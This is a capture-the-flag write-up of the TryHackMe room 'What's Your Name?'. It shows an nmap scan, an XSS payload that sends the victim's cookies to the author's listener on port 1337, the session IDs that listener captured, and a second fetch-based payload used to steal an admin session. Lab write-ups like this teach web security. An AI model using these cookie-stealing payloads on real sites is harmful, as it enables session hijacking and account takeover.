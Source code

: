 ```yaml
---
title: "TryHackMe - What's Your Name?"
date: 2025-06-20 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [xss]
--- 
```



This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks.

## Reconnaissance

I started with a full port scan using **nmap** to identify open services on the target machine:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap  -T4 -sV -sC -p- 10.10.26.74 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 06:44 EDT
Nmap scan report for worldwap.thm (10.10.26.74)
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dd:53:33:5b:68:eb:0b:e0:0a:2a:f0:fa:a3:5e:93:10 (RSA)
|   256 00:87:b6:51:1e:89:b6:30:67:33:36:c2:e6:30:dc:5d (ECDSA)
|_  256 5b:5e:b7:d6:24:3a:0a:d1:c5:cf:37:9a:e5:b9:df:ec (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Scan results : 

- 22/tcp   open  ssh     OpenSSH 8.2p1 (Ubuntu)
- 80/tcp   open  http    Apache httpd 2.4.41
- 8081/tcp open  http    Apache httpd 2.4.41

## Web enumaration

After adding the domain `worldwap.thm` to my `/etc/hosts` file, I visited the website. The main page allowed me to register an account. After successful registration, I saw a message:

> "You'd need to visit login.worldwap.thm to login once you register successfully."

![1](/images/whatsyourname/1.jpg)

I added that subdomain to my hosts file too and navigated to it.

The page was blank at first glance, but checking the source code revealed this comment:


![2](/images/whatsyourname/2.jpg)
So I manually visited http://login.worldwap.thm/login.php and found a login form.

![3](/images/whatsyourname/3.jpg)

Unfortunately, the credentials I created earlier didn’t work.
![3b](/images/whatsyourname/3b.jpg)

## Stealing a Moderator's Cookie via XSS 

Suspecting a vulnerability, I attempted to inject a simple XSS payload by sending an email that contained this script: 

![4](/images/whatsyourname/4.jpg)

```
<script>new Image().src='http://10.23.x.x:1337/log?c='+document.cookie</script>
```
> This script sends the victim’s cookies to my server running on port 1337.

I hosted a listener with Python:

```
sudo python3 -m http.server 1337
```


And it worked! I received requests with the following data:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.26.74 - - [20/Jun/2025 07:06:00] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:06:00] "GET /log?c=PHPSESSID=8ss9dd7o48h9821sttmv66vjrh HTTP/1.1" 404 -
10.10.26.74 - - [20/Jun/2025 07:07:01] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:07:01] "GET /log?c=PHPSESSID=7c42qdip0p52292bvpfkh79pop HTTP/1.1" 404 
```

## Using the Stolen Session

I copied one of the stolen PHPSESSID values and injected it into my browser cookies. Then I reloaded http://login.worldwap.thm/login.php and logged in using the default credentials: hacker:hacker.

This time, I was successfully logged in as a moderator.


![5](/images/whatsyourname/5.jpg)
![6](/images/whatsyourname/6.jpg)



## Eploiting the Chat Bot with XSS again

On the moderator page, I noticed a chatbot feature. I tested it for XSS and, unsurprisingly, it was also vulnerable.


![7](/images/whatsyourname/7.jpg)



I sent the following payload to the chatbot:



```
<script>
fetch("/chat.php", {
    "credentials": "include",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    "body": "message="+document.cookie,
    "method": "POST",
    "mode": "cors"
});
</script>
```

 **What Does This Script Do?**

- fetch(): A modern JavaScript API for making HTTP requests.

- /chat.php: The endpoint used by the chatbot.

- credentials: "include": Ensures the victim's cookies are included in the request.

- body: "message="+document.cookie: Sends the session cookie in the message field.

This trick allowed me to capture the admin's session cookie.

## Admin Access Achieved 

After replacing my browser cookie with the stolen admin session, I refreshed the page and was immediately logged in as the administrator.

![8](/images/whatsyourname/8.jpg)